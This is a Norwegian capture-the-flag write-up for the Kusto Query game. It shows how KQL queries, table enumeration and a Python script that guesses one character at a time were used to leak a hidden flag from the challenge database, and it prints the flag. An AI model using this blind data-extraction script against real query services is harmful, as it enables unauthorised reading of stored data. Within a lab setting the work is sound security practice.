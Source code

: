 ## THE KUSTO QUERY GAME

### Løsning

Løser The Kusto Query game med følgende query:

```sql
StormEvents
  | where EventId in 61032, 60904, 60913, 64588
```

Der EventIdene er EventIder fra StormEvents hentet fra [dataexplorer.azure.com](https://dataexplorer.azure.com/clusters/help/databases/Samples). Vi bruker et [pythonscript](win_game.py) for å generere querys som returnerer forskjellig antall rader. Datasettet med ider finnes [her](event_ids.txt).

Vinner vi spillet får vi beskjed om at løsningen ligger et sted i databasen og at vi må lekke flagget fra databasen:

![alt text](image.png)

Derfor finner frem templaten for hvordan StormEvents-databasen ser ut: [dataexplorer.azure.com](https://dataexplorer.azure.com/clusters/help/databases/Samples). Denne tjenesten kan også brukes for å teste KQL Queries før vi kjører den på nettsiden.

Du kan søke etter strings i alle kolonner i en tabell slik:

```sql
StormEvents | where * contains "a"
```

Da får vi vite hvor mange rader som inneholder `a`. Dette kan vi bruke for å søke etter flagget:

```sql
StormEvents | where * contains "ept{"
```

Dette ga ingen resultater, derfor sjekker vi om vi evt. har andre tabeller å søke i:

```sql
.show tables
```

Spørringen over avslører at det er `2` tabeller i databasen. Derfor prøver vi å finne navnet ved å teste typiske navn:

* Flag
* Flags
* Users
* Roles
* Groups

Vi får treff på tabellen `Users`. Senere fant vi også ut at tabellnavn kan byttes ut med `search *` for å søke i alle tabeller. Men siden vi allerede har funnet tabellen bruker vi bare navnet på denne for å gjøre søkene raskere. Nå kan vi søke etter flagget i tabellen Users:

```sql
Users | where * contains "ept{"
```

Her får vi 28 treff. Derfor mistenker vi at det er lagt inn "fake" flags. vi begrensen søket ved å legge til `"}"` i søket:

```sql
Users | where * contains "ept{" and * contains "}"
```

Nå får vi bare ett treff, så vi kan trygt si at dette er det ekte flagget. Herifra ble det å gjette en og en bokstav i flagget helt til vi finner `"}"`:

```py
import requests
import string
import re

def brute(url, query, word):
    for i in range(50):
        for letter in string.digits + string.ascii_lowercase + "_-?!}" + string.ascii_uppercase:
            # Use replace placaolder with payload
            query_to_run = query.replace("$$", word+letter)

            response = requests.post(url, { "query": query_to_run})
            if response.status_code == 200:
                # Regex match to see if there was a result
                if re.search(r'<h2>The row count for your query was \d+', response.text):
                    word += letter
                    print(word)
                    if(letter == "}"): return word
                    break
            else:
                print("error at", word)

brute("https://kqlgame.ept.gg/game", 'Users | where * contains "$$" and * contains "}"', "ept{")
```

```bash
[Running] python3 brute.py
ept{z
ept{z2
ept{z26
ept{z264
ept{z2641
...

[Done] exited with code=0 in 38.598 seconds
```

Vi fant også ut at KQL godtar regex. Derfor skal det også være mulig å kjøre søket etter bokstavene med betydelig færre requests.

<details>
<summary>Flagg</summary>

`ept{z2641a3a}`
</details>